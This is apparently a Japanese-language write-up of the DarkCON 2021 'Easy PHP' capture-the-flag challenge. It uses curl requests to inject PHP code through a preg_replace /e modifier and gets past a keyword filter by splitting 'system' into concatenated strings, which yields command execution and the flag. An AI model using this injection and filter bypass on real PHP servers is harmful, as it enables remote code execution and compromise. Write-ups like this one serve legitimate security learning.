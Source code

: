 # Easy PHP:Web:384pts
```
Please note....
Note: This chall does not require any brute forcing
```
[Link](http://easy-php.darkarmy.xyz/)  

# Solution
アクセスしても文字が表示されるだけのようだ。  
```bash
$ curl http://easy-php.darkarmy.xyz/
Welcome DarkCON CTF !!
```
robots.txtをみる。  
```bash
$ curl http://easy-php.darkarmy.xyz/robots.txt
?lmao
```
謎のクエリパラメータが出てくるので、指定しアクセスすると以下のようなソースが見られた。  
?lmao  
[site.png](site/site.png)  
`preg_replace`が用いられているが、この関数はe修飾子によって第二引数がphpコードとして評価されることが知られている。  
`is_payload_danger`によってある程度弾いているが、`eval`は通るようだ。  
```bash
$ curl "http://easy-php.darkarmy.xyz/?bruh=system('')&nic3=/a/e"
Amazing Goob JOb You :) 
$ curl "http://easy-php.darkarmy.xyz/?bruh=eval('')&nic3=/a/e"
Welcome DrkCON CTF !!Welcome DarkCON CTF !!
$ curl "http://easy-php.darkarmy.xyz/?bruh=eval('echo(123456789);')&nic3=/a/e"
123456789Welcome DrkCON CTF !!Welcome DarkCON CTF !!
```
systemを文字列として分割してやればよい。  
```bash
$ curl "http://easy-php.darkarmy.xyz/?bruh=eval('syste'.'m(ls);')&nic3=/a/e"
config.php
flag210d9f88fd1db71b947fbdce22871b57.php
index.php
robots.txt
Welcome DrkCON CTF !!Welcome DarkCON CTF !!
$ curl "http://easy-php.darkarmy.xyz/flag210d9f88fd1db71b947fbdce22871b57.php"
darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}
```
隠しphpにflagが書かれていた。  

## darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}